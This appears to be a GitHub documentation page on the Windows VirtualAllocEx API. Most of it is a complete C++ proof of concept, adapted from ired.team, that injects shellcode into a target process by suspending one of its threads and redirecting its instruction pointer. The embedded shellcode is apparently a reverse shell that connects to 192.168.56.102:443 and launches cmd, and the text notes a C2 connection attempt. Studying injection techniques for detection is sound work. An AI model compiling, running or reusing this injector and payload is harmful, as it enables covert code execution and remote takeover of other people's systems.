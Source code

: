 # Description

**`VirtualAllocEx`** is a function that is used to allocate memory in the virtual address space of a remote process. It is particularly useful in scenarios where one process needs to write data to another process's memory space. 

Malware can use **`VirtualAllocEx`** to ensure that the memory region allocated in the target process is executable. Once the memory is allocated, malware might use other API functions like **`WriteProcessMemory`** to write executable code into the allocated space.

# Proof of Concept

This sample code injects shellcode into a process. It allocates memory within the target process and writes executable shellcode there, then hijacks a thread from the target process to execute the shellcode. This code sample is originated from: https://www.ired.team/offensive-security/code-injection-process-injection/injecting-to-remote-process-via-thread-hijacking - I've made some small tweaks.

```c
#include <iostream>
#include <Windows.h>
#include <TlHelp32.h>
#include <string>

int main(int argc, char* argv[])
{
    // Shellcode bytes are usually intended for low-level memory manipulation or process injection.
    unsigned char shellcode[] =
        "\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50\x52"
        "\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48"
        "\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9"
        "\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41"
        "\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48"
        "\x01\xd0\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01"
        "\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48"
        "\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0"
        "\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c"
        "\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0"
        "\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04"
        "\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59"
        "\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48"
        "\x8b\x12\xe9\x57\xff\xff\xff\x5d\x49\xbe\x77\x73\x32\x5f\x33"
        "\x32\x00\x00\x41\x56\x49\x89\xe6\x48\x81\xec\xa0\x01\x00\x00"
        "\x49\x89\xe5\x49\xbc\x02\x00\x01\xbb\xc0\xa8\x38\x66\x41\x54"
        "\x49\x89\xe4\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07\xff\xd5\x4c"
        "\x89\xea\x68\x01\x01\x00\x00\x59\x41\xba\x29\x80\x6b\x00\xff"
        "\xd5\x50\x50\x4d\x31\xc9\x4d\x31\xc0\x48\xff\xc0\x48\x89\xc2"
        "\x48\xff\xc0\x48\x89\xc1\x41\xba\xea\x0f\xdf\xe0\xff\xd5\x48"
        "\x89\xc7\x6a\x10\x41\x58\x4c\x89\xe2\x48\x89\xf9\x41\xba\x99"
        "\xa5\x74\x61\xff\xd5\x48\x81\xc4\x40\x02\x00\x00\x49\xb8\x63"
        "\x6d\x64\x00\x00\x00\x00\x00\x41\x50\x41\x50\x48\x89\xe2\x57"
        "\x57\x57\x4d\x31\xc0\x6a\x0d\x59\x41\x50\xe2\xfc\x66\xc7\x44"
        "\x24\x54\x01\x01\x48\x8d\x44\x24\x18\xc6\x00\x68\x48\x89\xe6"
        "\x56\x50\x41\x50\x41\x50\x41\x50\x49\xff\xc0\x41\x50\x49\xff"
        "\xc8\x4d\x89\xc1\x4c\x89\xc1\x41\xba\x79\xcc\x3f\x86\xff\xd5"
        "\x48\x31\xd2\x48\xff\xca\x8b\x0e\x41\xba\x08\x87\x1d\x60\xff"
        "\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd\x9d\xff\xd5\x48"
        "\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13"
        "\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5";

    // Ensure the correct number of command-line arguments are passed
    if (argc != 2) {
        std::cerr << "Usage: " << argv[0] << " <PID>" << std::endl;
        return 1; // Exit with an error code if not
    }

    DWORD targetPID; // This will store the process ID from the command line
    try {
        targetPID = std::stoul(argv[1]); // Convert string argument to a number
    }
    catch (const std::exception& e) {
        std::cerr << "Invalid PID. Please enter a valid number." << std::endl;
        return 1; // Exit with error if conversion fails
    }

    // Open the target process with all access rights
    HANDLE targetProcessHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, targetPID);
    if (targetProcessHandle == NULL) {
        std::cerr << "Failed to open target process." << std::endl;
        return 1;
    }

    // Allocate memory in the target process for the shellcode
    PVOID remoteBuffer = VirtualAllocEx(targetProcessHandle, NULL, sizeof(shellcode), MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    if (remoteBuffer == NULL) {
        std::cerr << "Failed to allocate memory in target process." << std::endl;
        CloseHandle(targetProcessHandle);
        return 1;
    }

    // Write the shellcode into the allocated memory
    if (!WriteProcessMemory(targetProcessHandle, remoteBuffer, shellcode, sizeof(shellcode), NULL)) {
        std::cerr << "Failed to write shellcode to target process." << std::endl;
        VirtualFreeEx(targetProcessHandle, remoteBuffer, 0, MEM_RELEASE);
        CloseHandle(targetProcessHandle);
        return 1;
    }

    // Create a snapshot of all threads in the system
    HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPTHREAD, 0);
    if (snapshot == INVALID_HANDLE_VALUE) {
        std::cerr << "Failed to create thread snapshot." << std::endl;
        VirtualFreeEx(targetProcessHandle, remoteBuffer, 0, MEM_RELEASE);
        CloseHandle(targetProcessHandle);
        return 1;
    }

    // Structure to store thread details
    THREADENTRY32 threadEntry = { sizeof(THREADENTRY32) };
    if (!Thread32First(snapshot, &threadEntry)) { // Retrieve the first thread in the snapshot
        std::cerr << "Failed to get first thread." << std::endl;
        CloseHandle(snapshot);
        VirtualFreeEx(targetProcessHandle, remoteBuffer, 0, MEM_RELEASE);
        CloseHandle(targetProcessHandle);
        return 1;
    }

    HANDLE threadHijacked = NULL; // This will store the handle of the thread we need
    // Iterate over all threads until we find one from our target process
    do {
        if (threadEntry.th32OwnerProcessID == targetPID) {
            threadHijacked = OpenThread(THREAD_ALL_ACCESS, FALSE, threadEntry.th32ThreadID);
            if (threadHijacked != NULL) break; // Successfully opened the thread
        }
    } while (Thread32Next(snapshot, &threadEntry));

    if (threadHijacked == NULL) {
        std::cerr << "No matching thread found for the specified PID." << std::endl;
        CloseHandle(snapshot);
        VirtualFreeEx(targetProcessHandle, remoteBuffer, 0, MEM_RELEASE);
        CloseHandle(targetProcessHandle);
        return 1;
    }

    // Suspend the chosen thread for context manipulation
    if (SuspendThread(threadHijacked) == (DWORD)-1) {
        std::cerr << "Failed to suspend the thread." << std::endl;
        CloseHandle(threadHijacked);
        CloseHandle(snapshot);
        VirtualFreeEx(targetProcessHandle, remoteBuffer, 0, MEM_RELEASE);
        CloseHandle(targetProcessHandle);
        return 1;
    }

    // Prepare to modify thread context to redirect execution
    CONTEXT context = { 0 };
    context.ContextFlags = CONTEXT_FULL; // Full context (all registers)
    if (!GetThreadContext(threadHijacked, &context)) {
        std::cerr << "Failed to get thread context." << std::endl;
        ResumeThread(threadHijacked); // Resume thread on failure
        CloseHandle(threadHijacked);
        CloseHandle(snapshot);
        VirtualFreeEx(targetProcessHandle, remoteBuffer, 0, MEM_RELEASE);
        CloseHandle(targetProcessHandle);
        return 1;
    }

    context.Rip = (DWORD_PTR)remoteBuffer; // Change the instruction pointer to the start of the shellcode
    if (!SetThreadContext(threadHijacked, &context)) {
        std::cerr << "Failed to set thread context." << std::endl;
        ResumeThread(threadHijacked);
        CloseHandle(threadHijacked);
        CloseHandle(snapshot);
        VirtualFreeEx(targetProcessHandle, remoteBuffer, 0, MEM_RELEASE);
        CloseHandle(targetProcessHandle);
        return 1;
    }

    // Resume the thread to execute the shellcode
    ResumeThread(threadHijacked);
    // Clean up handles
    CloseHandle(threadHijacked);
    CloseHandle(snapshot);
    CloseHandle(targetProcessHandle);

    return 0; // Successful execution
}
```

Here we are injecting shellcode into a specified process:

![image](https://github.com/DebugPrivilege/WindowsAP1/assets/63166600/021dee54-3242-4517-87fd-72707ce14685)


This memory region contains shellcode and is marked as RWX, it suggests that the shellcode might be about to execute or is currently being executed:

![image](https://github.com/DebugPrivilege/WindowsAP1/assets/63166600/fd688880-c9a2-4d5f-8a6b-a0081609a1e9)


To finalize it, we can see that the shellcode is attempting to establish the C2 connection:

![image](https://github.com/DebugPrivilege/WindowsAP1/assets/63166600/82753289-3c7f-43b3-83fa-1e4f6485bf06)

